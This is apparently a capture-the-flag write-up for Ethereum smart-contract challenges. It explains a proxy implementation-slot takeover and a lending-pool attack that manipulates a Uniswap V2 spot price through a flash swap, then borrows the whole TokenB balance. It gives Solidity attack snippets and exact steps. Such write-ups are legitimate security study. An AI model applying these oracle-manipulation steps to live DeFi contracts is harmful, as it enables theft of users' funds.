

# Solution explanation

## Vault
Are you serious?

## Proxy
Important to know:
- Each etherium contract has its own storage, represented as array with 2^256 slots each of 32 bytes

Proxy contract uses predefined slot in its storage to store `_logic` address. It's slot:

**_IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc**

Executor contract has two slots:
- 0 slot: owner address
- 1 slot: player address

### 1. Proxy creation
In proxy constructor `constructor(address _logic, address _player)` contract writes **_logic** into its **_IMPLEMENTATION_SLOT**, then delegate calls **_logic**'s `initialize` function with **_player** parameter. After that Proxy contract's storage became:
- 0: someone who deployed it
- 1: player address (my)
- _IMPLEMENTATION_SLOT: _logic address

### 2. Note about proxy usage
When we call any function that does not exist in `Proxy`, it goes to `fallback()` that идеально копирует вызванную функцию, делегирует ее вызов имплементации и так же идеально возращает данные

### 3. Exploit
Main goal - to change `_logic` address, which is stored in _IMPLEMENTATION_SLOT, with our contract `isSolved() -> true`. If this is done, any Proxy call of `isSolved` will return true!

#### - Verify that `_logic` address is stored at _IMPLEMENTATION_SLOT using web3.js


#### - Deploy Executor contract with modified isSolved function (`AttackHelper.sol`)

#### - Call `execute` function of Proxy through `Attack.sol`

## Lending

### Initial state
```
TokenA (collateral token):
- Lending = 0
- Me = 100
- Pair = 500

TokenB (borrow token):
- Lending = 5000
- Me = 0 
- Pair = 500
```

### Vulnerability
The main vulnerability is in price oracle implementation. Lending contract uses current spot price from Uniswap V2 pool which can be easily manipulated through flash swaps

### Attack steps

1. Deposit all TokenA as collateral:
```solidity
// add 100 token A as collateral
token0.approve(address(lending), 100 * 1e18);
lending.addCollateral(100 * 1e18);
```

2. Do flash swap to manipulate TokenB price:
```solidity
// flash swap 490 tokens B. Pool: 10B / 500A  
pair.swap(0, 490 * 1e18, address(this), bytes("New Year 2025"));
```

After this swap reserves in pool became:
- TokenA: 500
- TokenB: 10

3. Update reserves to use new manipulated price:
```solidity
pair.sync();
```

4. Borrow all TokenB using manipulated low price:
```solidity
lending.borrow(5000 * 1e18);
```

At this point exchange rate is very low (10/500 = 0.02), which means we need much less collateral to borrow TokenB.

5. Return flash swapped tokens with fee:
```solidity
token1.transfer(address(pair), 600 * 1e18); // Return with fee (>> expected_fee, nobody cares)
```

### Final state
```
TokenA:
- Lending = 100 (locked as collateral)
- Me = 0
- Pair = 500

TokenB:
- Lending = 0 (borrowed all 5000)
- Me = ~4890 (5490 - 600 flash swap return)
- Pair = 610
```
The attack succeeds because lending protocol uses current Uniswap spot price instead of price from oracles :(